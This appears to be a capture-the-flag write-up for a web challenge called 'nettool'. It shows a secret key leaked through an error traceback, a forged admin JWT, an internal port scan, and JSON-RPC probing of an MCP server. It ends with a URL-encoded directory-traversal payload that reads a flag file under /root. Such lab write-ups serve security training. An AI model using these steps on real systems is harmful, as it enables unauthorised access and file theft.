# nettool

## First, read the source code and find the guest login credentials. Log in as a guest.

Reading the source code reveals:

```shell
try:
    SECRET_KEY = "RDbiBrgdR#CrdZVW" if len(token) <= 2048 else base64.b64decode(token[:2048])
except Exception:
    raise HTTPException(
        status_code=status.HTTP_500_INTERNAL_SERVER_ERROR,
        detail=f"Token custom check failed: {traceback.format_exc()}"
        )
```

Here `traceback.format_exc()` will leak the source code, which also leaks the `SECRET_KEY`.

Try accessing `/admin/nettools` and pass a token with length greater than 2048 to cause decoding failure and leak the information.



## Then forge the admin's JWT using the `SECRET_KEY` to log in as admin




## Then scan the internal network ports and discover that port 9000 is open


Observing the packets, it's identified as a fastmcp framework's mcpserver.

Try to probe for information:

```shell
{
    "Accept": "application/json, text/event-stream",
    "Content-Type": "application/json"
}

{
    "method":"initialize",
    "params":{
        "protocolVersion":"2025-06-18",
        "capabilities":{},
        "clientInfo":{
            "name":"mcp",
            "version":"0.1.0"
        }
    },
    "jsonrpc":"2.0",
    "id":0
}
```



## notifications/initialized
```shell
{
    "Accept": "application/json, text/event-stream",
    "Content-Type": "application/json",
    "Mcp-Session-Id": "a7540ddd08254bb3a2d7a406992c58d3"
}

{
    "method":"notifications/initialized",
    "jsonrpc":"2.0"
}
```



## List tools
```shell
{
    "method":"tools/list",
    "jsonrpc":"2.0",
    "id":1
}
```



Found only one insignificant tool.

## Probe resources and prompts
```shell
{
    "method":"resources/list",
    "jsonrpc":"2.0",
    "id":1
}

{
    "method":"prompts/list",
    "jsonrpc":"2.0",
    "id":1
}
```

No information found in resources, but prompts contain information.



## Further examine prompts
```shell
{
    "method": "prompts/get",
    "params": {
        "name": "where_is_flag",
        "arguments": {
            "name": "aaa"
        }
    },
    "jsonrpc": "2.0",
    "id": 1
}
```



## Try to read templates
```shell
{
    "method": "resources/templates/list",
    "jsonrpc": "2.0",
    "id": 1
}
```



Indeed discovered that templates has a function to read file base64 content and there's a directory traversal vulnerability.

## Read the flag through directory traversal
```shell
{
    "method": "resources/read",
    "params": {
        "uri": "base64://tmp/%2e%2e%2f%2e%2e%2f%2e%2e%2f%72%6f%6f%74%2f%31%66%66%66%6c%6c%6c%61%61%61%67%67%67"
    },
    "jsonrpc": "2.0",
    "id": 1
}
```
